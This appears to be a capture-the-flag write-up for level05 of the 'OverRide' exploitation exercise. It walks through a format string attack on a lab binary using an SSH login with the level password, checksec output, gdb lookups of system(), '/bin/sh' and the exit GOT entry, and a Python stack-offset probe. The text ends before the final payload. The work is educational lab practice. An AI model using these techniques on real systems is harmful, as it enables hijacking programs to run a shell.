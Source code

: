 # Format String Attack

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level05
           ____                  ____  _     __   
          / __ \_   _____  _____/ __ \(_)___/ /__ 
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/ 
                                          
                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level05@192.168.56.101's password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```
Only one `main()` function is defined in the executable.
It gets users input, decapitalize and print, following by exit with status 0.

The issue is that `printf()` is missuded which expose the application to the Format String Attack.
FSA allows to apply overwrite of GOT table where address of `exit()` is stored.

Determine addresses of `system()` and `"/bin/sh"` as well as where `exit()` is stored.
```
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
gdb-peda$
gdb-peda$ x/i main+207
  0x8048513 <main+207>: call 0x8048370 <exit@plt>
gdb-peda$ disassemble 0x8048370
Dump of assembler code for function exit@plt:
  0x08048370 <+0>:  jmp  DWORD PTR ds:0x80497e0
  0x08048376 <+6>:  push 0x18
  0x0804837b <+11>: jmp  0x8048330
End of assembler dump.
gdb-peda$ x 0x80497e0
  0x80497e0 <exit@got.plt>: 0x08048376
```

Input recognizable characters to determine how far away input is layed on the stack. Note that due to XOR operation upercase character will be inverted, A(41) will be a(61).
```shell
level05@OverRide:~$ python -c 'print("AAAABBBB" + "%x "*11)' | ./level05
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
Input string starts with offset 10.
```
        [1]      [2]      [3]      [4]      [5]      [6]      [7]      [8]      [9]      [10]     [11]
aaaabbbb00000064 f7fcfac0 f7ec3add ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 62626262
```
